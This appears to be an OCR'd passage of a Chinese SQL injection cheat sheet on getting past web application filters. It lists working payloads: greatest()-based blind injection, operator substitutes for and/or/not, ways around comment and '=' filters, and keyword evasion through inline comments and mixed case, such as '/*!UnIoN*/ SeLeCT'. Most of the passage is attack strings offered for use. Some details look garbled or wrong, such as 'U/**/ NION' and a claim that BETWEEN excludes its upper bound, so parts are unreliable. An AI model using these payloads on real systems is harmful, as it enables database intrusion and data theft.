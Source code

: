 此时如果比较操作符被过滤，上面的盲注语句则无法使用,那么就可以使用greatest来代替比较操作符了。greatest(n1,n2,n3,...)函数返回输入参数(n1,n2,n3,...)的最大值。
那么上面的这条sql语句可以使用greatest变为如下的子句:

```sql
select * from users where id=1 and greatest(ascii(substr(database(),0,1)),64)=64
```

使用between and：
between a and b：返回a，b之间的数据，不包含b。

## or and xor not绕过

```sql
and=&&  or=||   xor=|   not=!
```

## 绕过注释符号（#，--(后面跟一个空格））过滤

```sql
id=1' union select 1,2,3||'1
```

最后的or '1闭合查询语句的最后的单引号，或者：

```sql
id=1' union select 1,2,'3
```

## =绕过

使用like 、rlike 、regexp 或者 使用< 或者 >

## 绕过union，select，where等

**（1）使用注释符绕过**

常用注释符：

```sql
//，-- , /**/, #, --+, -- -, ;,%00,--a
```

用法：

```sql
U/**/ NION /**/ SE/**/ LECT /**/user，pwd from user
```

**（2）使用大小写绕过**

```sql
id=-1'UnIoN/**/SeLeCT
```

**（3）内联注释绕过**

```sql
id=-1'/*!UnIoN*/ SeLeCT 1,2,concat(/*!table_name*/) FrOM /*information_schema*/.tables /*!WHERE *//*!TaBlE_ScHeMa*/ like database()#
```
